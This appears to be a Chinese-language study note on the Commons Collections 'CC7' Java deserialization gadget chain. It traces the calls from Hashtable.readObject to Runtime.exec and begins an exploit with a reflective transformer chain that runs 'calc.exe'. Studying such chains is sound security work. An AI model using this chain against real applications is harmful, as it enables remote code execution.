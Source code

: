 # CC7

Gadget chain：

```java
/*
    Payload method chain:

    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
*/
```

Hashtable的readObject：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231215155606.png)

Hashtable的reconstitution：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231215160635.png)

AbstractMapDecorator的equals

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231215162301.png)

AbstractMap的equals

![image-20231215162431862](C:\Users\86158\AppData\Roaming\Typora\typora-user-images\image-20231215162431862.png)

后面就是调用LazyMap的get，与CC5相同。

开始构造exp。首先先把LazyMap的那部分拿过来：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
        };
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```
